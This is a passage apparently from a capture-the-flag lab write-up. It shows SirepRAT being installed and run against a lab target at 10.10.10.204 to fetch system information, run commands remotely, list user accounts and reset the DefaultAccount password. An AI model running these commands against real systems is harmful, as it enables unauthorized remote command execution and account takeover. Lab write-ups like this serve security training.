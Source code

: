 ```
  Using cached enum34-1.1.10-py2-none-any.whl (11 kB)
Collecting hexdump>=3.3
  Using cached hexdump-3.3.zip (12 kB)
Building wheels for collected packages: hexdump
  Building wheel for hexdump (setup.py) ... done
  Created wheel for hexdump: filename=hexdump-3.3-py2-none-any.whl size=8915 sha256=1c5dbfb32caa81a35966e21ef730c313e53dca4cba2bdee632c08972c53a7f54
  Stored in directory: /home/kali/.cache/pip/wheels/e2/73/09/9c2970e7906d3fbcfb9a1da05d3a46cc394f3b43ff0724b147
Successfully built hexdump
Installing collected packages: enum34, hexdump
Successfully installed enum34-1.1.10 hexdump-3.3

(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice
<SystemInformationResult | type: 51, payload length: 32, kv: {'wProductType': 0, 'wServicePackMinor': 2, 'dwBuildNumber': 17763, 'dwOSVersionInfoSize': 0, 'dwMajorVersion': 10, 'wSuiteMask': 0, 'dwPlatformId': 2, 'wReserved': 0, 'wServicePackMajor': 1, 'dwMinorVersion': 0, 'szCSDVersion': 0}>
```
Looking on the Internet, it seems like the System Information corresponds to some instance of Windows Server 2019:
- dwMajorVersion = 10
- dwMinorVersion = 0
- dwBuildNumber = 17763
- dwPlatformId = 2

Using SirepRAT, we can also enumerate the users on the system. 
```
(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c net user" --v                        
---------

User accounts for \\

-------------------------------------------------------------------------------
Administrator            app                      DefaultAccount           
DevToolsUser             Guest                    sshd                     
WDAGUtilityAccount       
The command completed with one or more errors.


---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 338, payload peek: 'User accounts for \\------------------------'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>

(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c net user DefaultAccount password" --v
---------
The command completed successfully.


---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 39, payload peek: 'The command completed successfully.'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>

```